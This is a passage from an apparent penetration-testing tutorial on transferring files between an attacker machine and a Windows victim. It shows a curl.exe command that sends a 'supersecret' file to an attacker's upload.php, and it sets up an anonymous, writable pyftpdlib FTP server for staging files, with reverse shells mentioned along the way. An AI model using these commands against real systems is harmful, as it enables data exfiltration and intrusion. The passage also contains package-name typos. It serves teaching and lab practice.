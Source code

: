 > The double backslashes are important for the file location. With single backslashes the command will fail.

And then again, to the Apache server we just need to add upload.php in the destination address:

```
curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30/upload.php
```

## **Downloading Files from Attacker’s FTP Server**

## **Setting up the FTP Server on the Attacker Machine**

On our attacker machine we can use many different FTP programs to start up our server; however, we want to work with something lightweight that we can just fire up and tear down without the overhead. To accomplish this, we will be using Python’s **pyftpdlib**.

> If you don’t already have pyftdlib, you can download it for Python2 using: **pip install pyftpdlib** or for Python3 using **python3 pip install pyftdlib** or **pip3 install pyftpdlib**

Navigate to the directory housing the files you want to transfer to the victim and then use the following command to start the FTP server:

```
python3 -m pyftpdlib -w -p 21
```

> Where ‘**\-w**‘ allows write permissions. This will be needed for uploading files to the FTP server.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-156.png)

> This creates an FTP server with anonymous access allowed.

Back on the victim, we can download files from the FTP server a few different ways.

## **Downloading Files from Attacker’s FTP Server: FTP Prompt (GUI)**

The easiest way to interact with the FTP server and download files would be when we have GUI access. With GUI access, we can drop into the FTP prompt and interact with it, like so:

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-133.png)

We see that the file downloads successfully and back on our attacker machine, we can see in the FTP logs that the user checked in and downloaded the file.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-159.png)

## **Downloading Files from Attacker’s FTP Server: cmd.exe**

What happens when we do not have GUI access? Since FTP is an interactive command and drops into an FTP prompt, if we have a reverse shell we cannot simply just interact with it.
